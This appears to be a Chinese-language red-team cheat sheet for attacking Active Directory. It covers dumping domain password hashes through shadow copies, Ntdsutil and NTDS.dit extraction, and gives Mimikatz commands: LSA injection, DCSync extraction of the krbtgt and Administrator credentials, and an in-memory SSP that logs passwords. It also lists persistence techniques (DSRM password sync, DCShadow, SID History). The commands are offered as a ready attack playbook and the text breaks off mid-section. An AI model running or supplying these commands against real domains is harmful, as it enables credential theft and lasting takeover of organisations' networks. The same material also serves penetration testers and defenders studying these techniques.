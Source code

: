 **地址解析协议**

实在搞不定再搞ARP ​

**获取AD哈希**

* 使用VSS卷影副本
* Ntdsutil中获取NTDS.DIT​​文件
* PowerShell中提取NTDS.DIT -->[Invoke-NinaCopy](https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy)
* 使用Mimikatz提取

```
mimikatz lsadump::lsa /inject exit 
```

* 使用PowerShell Mimikatz
* 使用Mimikatz的DCSync 远程转储Active Directory凭证 提取 KRBTGT用户帐户的密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：krbtgt"exit
```

管理员用户帐户提取密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：Administrator" exit

```

* NTDS.dit中提取哈希 使用esedbexport恢复以后使用ntdsxtract提取

**AD持久化**

**活动目录持久性技巧**

[https://adsecurity.org/?p=1929](https://adsecurity.org/?p=1929) DS恢复模式密码维护 DSRM密码同步

> Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:[https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：\[巧用DSRM密码同步将域控权限持久化\](http://drops.xmd5.com/static/drops/tips-9297.html)](https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,%E5%8F%AF%E5%8F%82%E8%80%83%EF%BC%9A\[%E5%B7%A7%E7%94%A8DSRM%E5%AF%86%E7%A0%81%E5%90%8C%E6%AD%A5%E5%B0%86%E5%9F%9F%E6%8E%A7%E6%9D%83%E9%99%90%E6%8C%81%E4%B9%85%E5%8C%96]\(http://drops.xmd5.com/static/drops/tips-9297.html\))

[DCshadow](https://www.dcshadow.com/)

**Security Support Provider**

简单的理解为SSP就是一个DLL，用来实现身份认证

```
privilege::debug
misc::memssp
```

这样就不需要重启`c:/windows/system32`可看到新生成的文件kiwissp.log

**SID History**

SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户

